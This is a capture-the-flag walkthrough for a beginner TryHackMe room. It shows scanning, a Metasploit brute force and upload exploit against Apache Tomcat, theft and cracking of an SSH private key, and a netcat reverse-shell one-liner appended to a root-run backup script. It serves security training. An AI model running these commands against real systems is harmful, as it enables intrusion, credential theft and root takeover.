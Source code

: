 CTF Link: tryhackme.com/jr/thecyb3rctfv1
Link 2: https://tryhackme.com/jr/thecyberctf0x1

---

Level: Easy (For Beginners)

## **Methodology:**

**Network scanning**
- nmap
- naabu 

**Enumeration**
-   Abusing HTTP

**Exploitation**
-   Metasploit
-   John the Ripper

**Privilege Escalation**
-   writable script
-   Capture the Flag

---

### **Network Scanning**

Initially, we will scan the network to find the Victim machine IP using the netdiscover command.

We have the machine's ip: `10.10.139.12`

**naabu** + **Nmap**

Further, we ran scan for open port enumeration where we found the following port details:

- `echo 10.10.139.12 | naabu -nmap-cli 'nmap -sV -oX nmap-output'`

According to the Nmap output, we get
-   on port 22 SSH server running (OpenSSH)
-   on port 8080 HTTP service running (Apache tomcat)
- ![[Pasted image 20220925224028.png]]

### **Enumeration**

**Abusing HTTP**

Now let’s see if we can get any interesting information from port 8080. Because the Apache Tomcat Server is running on port 8080, we can see the result right away in the browser.

We note the Tomcat version number: 9.0.52
> URL:  **10.10.139.12:8080**
- ![[Pasted image 20220925224228.png]]

Here is a Login page
- ![[Pasted image 20220925224812.png]]

### **Exploitation**

**Metasploit**

Now, let’s start msfconsole. We will be using the auxiliary scanner to bruteforce tomcat manager login. Here we are using Metasploit default wordlist for password brute force attack.

- msfconsole 
- ![[Pasted image 20220925224745.png]]

- > `search tomcat login`
- 
![[Pasted image 20220925224926.png]]
- `use 0`
- `options` 
- ![[Pasted image 20220925225003.png]]
- `set RHOSTS 10.10.139.12`
- `exploit`
- ![[Pasted image 20220925225346.png]]
- tomcat:role1
- login

- Upload functionality
- ![[Pasted image 20220925225652.png]]

- `ifconfig`
- my vpn ip: `10.17.66.156`
- ![[Pasted image 20220925230031.png]]


- `search tomcat upload mgr`
- ![[Pasted image 20220925225753.png]]

- use 1
- options
	- `set HttpUsername tomcat`
	- `set HttpPassword role1`
	- `set RHOSTS 10.10.139.12`
	- `set RPORT 8080`
	- `set LHOST 10.17.66.156`
	- ![[Pasted image 20220925230425.png]]
- exploit
	- ![[Pasted image 20220925230522.png]]

After getting the meterpreter shell we navigate to the ‘home’ directory and there we can find a sub-directory named ‘thales’. Entering the ‘thales’ directory we get two files: **user.txt** and **notes.txt.** We also find a **.ssh** directory.

- `cd /home`
- `ls`
- `cd thales`
- `ls`
	![[Pasted image 20220925231316.png]]

We observe that the public key (id_rsa.pub) and the private key(id_rsa) are present on the victim machine. The private key is used to login. So now we proceed to download the private key onto our kali machine.


cd .ssh

ls

download id_rsa /root/Desktop
![[Pasted image 20220925232031.png]]


locate ssh2john

/usr/share/john/ssh2john.py id_rsa > sshhash

john --wordlist=/usr/share/wordlists/rockyou.txt sshash
![[Pasted image 20220925232934.png]]

found: vodka06

go back to your meterpreter
- `shell`

After we get a shell, we will upgrade our non-interactive shell to a partially interactive one using the following command:
- `python3 -c 'import pty;pty.spawn("/bin/bash")'`
- `export TERM=xterm`

Since we have cracked the password of user ‘thales’, let’s switch to the thales user.
`su thales`
After switching to thales user, we use the command “**id**” to know about the real and effective ‘user and group’ IDs. We find that thales is a non-root user.

![[Pasted image 20220925233823.png]]

cat the users.txt now

We now use “ sudo -l “ to check which commands can be run as root by the user thales.

- `sudo -l`

We find that user thales does not have the ability to run any command as root. So now we navigate around in search of some interesting files.

We get a hint on note.txt that a backup script is prepared for us in the directory **/usr/local/bin/backup.sh**

![[11 1.png]]

Now, let’s go and check the backup.sh file. We investigate and find that this file has read, written, and execute permissions and the file is owned by the root.

- `cat /usr/local/bin/backup.sh`
- `ls -la /usr/local/bin/backup.sh`

![[12.png]]


---

### Privilege Escalation

Since the backup.sh is writable thus we can edit this script by injecting reverse shell payload and expect to get root shell access.

On our attacking machine ( kali ) we will start a Netcat listener to receive the shell, on port 8888

`nc -lvp 8888`

Execute the following command in the terminal to append the backup.sh script for injecting malicious payload.

`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.6.180 8888 >/tmp/f" >> /usr/local/bin/backup.sh`

since it was a backup script that run automatically, thus it will give root privilege reverse shell over port 8888.

**Capture the root flag**

- `id`
- `cd /root`
- `ls`
- `cat root.txt`

![[Pasted image 20221210182443.png]]
